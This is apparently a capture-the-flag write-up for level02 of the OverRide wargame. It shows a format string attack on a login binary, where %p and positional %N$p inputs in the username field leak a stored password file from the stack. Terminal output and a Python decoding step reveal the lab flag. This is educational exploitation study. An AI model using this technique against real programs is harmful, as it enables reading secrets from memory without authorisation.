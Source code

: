 This time, the executable file is in ELF 64-bit format. Once launched, the program displays a prompt and asks the user to identify himself (username, then password). The program then displays (unless the credentials are good of course) a message in the format username + "does not have access!

By reconstructing the [source code](source.c) with the help of gdb, we understand better how the program works and how we can exploit it. Three variables declared on the stack are relevant to us. The first one is intended to store the username of the user (at -0x70(%rbp)). The second one stores the content of the file `/home/users/level03/.pass` (at -0xa0(%rbp)). The third one stores the password given by the user (at -0x110(%rbp)).

If the password entered by the user is equal to the content of the .pass file, then a shell is launched. But then we wouldn't need to launch a shell anymore since we already know the password/flag.

The resolution of the exercise is elsewhere. Indeed, the content of the .pass file is stored on the stack. Moreover, a call to printf() is exploitable: On line 48 of the source.c file, the username variable is passed as the only argument to printf(). This allows us to perform a format string attack, inserting modifiers into the username variable which will be interpreted by printf(), and which will allow us to read the memory on the stack.

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
aaaaaaaa 0x7fffffffe4d0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 0x7025207025207025 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x6161616161616161 0x2520702520702520 0x2070252070252070  does not have access!
```

We can easily identify the location of the username variable, with an offset of 28 (starting with "aaaaaaaa" <=> 0x6161616161616161). Since the pass variable is 40 bytes long, and located 48 bytes below the username variable (0xa0 - 0x70 <=> 160 - 112), it is identified from offset 22 to offset 26.

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: ok
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

From there, we still have to convert the hexadecimal into text, which can be done by removing the 0x prefixes, and by reversing the reading direction (since the data is recorded in little endian). This can be done easily with a few lines of python: 
```
level02@OverRide:~$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ba = bytearray.fromhex("48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848")
>>> ba.reverse()
>>> print(ba)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
We can now reach the next level with the command `su level03` and fill in the flag found as a password.